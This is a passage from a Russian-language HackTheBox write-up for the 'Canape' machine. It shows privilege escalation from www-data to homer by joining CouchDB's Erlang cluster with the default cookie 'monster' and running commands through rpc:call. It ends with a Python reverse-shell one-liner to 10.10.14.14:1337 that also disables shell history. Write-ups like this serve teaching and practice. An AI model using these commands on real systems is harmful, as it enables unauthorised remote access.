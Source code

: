 ### user.txt
```text
homer@canape:~$ cat /home/homer/user.txt
bce91869????????????????????????
```

На этом заканчивает первый способ PrivEsc'а.

## PrivEsc: www-data → homer. Способ 2
Второй способ заключается в выполнении команд через *Erlang эмулятор*.

CouchDB написан на Erlang'е, а Erlang использует сервер EPMD (и TCP `4369` порт) для того, чтобы иметь возможность находить другие ноды базы данных. В контексте кластеризации CouchDB слушает `5984` порт для standalone-доступа и `5986` порт для локальных нодов:
> CouchDB in cluster mode uses the port 5984 just as standalone, but it also uses 5986 for node-local APIs.
> Erlang uses TCP port 4369 (EPMD) to find other nodes, so all servers must be able to speak to each other on this port. In an Erlang Cluster, all nodes are connected to all other nodes. A mesh.

В [документации](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup "11.1. Set Up — Apache CouchDB 2.2 Documentation") же к СУБД красуется вывеска с надписью :warning: **Warning**:

[![canape-couchdb-warning.png]({{ "/img/htb/boxes/canape/canape-couchdb-warning.png" | relative_url }})]({{ "/img/htb/boxes/canape/canape-couchdb-warning.png" | relative_url }})

Что означает, что если порт `4369` "смотрит наружу интернета", то к нему можно будет подключиться любому желающему при наличии нужного cookie (cookie — единственный способ аутентификации, задействованный в этой схеме). Дефолтные куки для подключения к EPMD — "monster".

Посмотрим еще раз на запущенный процесс couchdb:
```text
www-data@canape:/$ ps auxww | grep monster
homer       642  0.7  3.5 651392 34968 ?        Sl   03:12   2:59 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```

Это и есть эти куки: `... -setcookie monster ...`.

Выполним подключение к кластеру (предварительно настроив переменную `HOME`, как того требует документация):
```text
www-data@canape:/$ HOME=/tmp erl -sname 3V1LH4CK3R -setcookie monster
Eshell V7.3  (abort with ^G)
(3V1LH4CK3R@canape)1>
```

Далее воспользуемся модулями `os:cmd` и `rpc:call` для выполнения команд от имени указанного узла БД:
```text
(3V1LH4CK3R@canape)1> os:cmd('whoami').
"www-data\n"

(3V1LH4CK3R@canape)2> nodes().
[]

(3V1LH4CK3R@canape)3> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"

(3V1LH4CK3R@canape)4> nodes().
[couchdb@localhost]

(3V1LH4CK3R@canape)5> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.14\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/bash\");s.close()'"]).
```
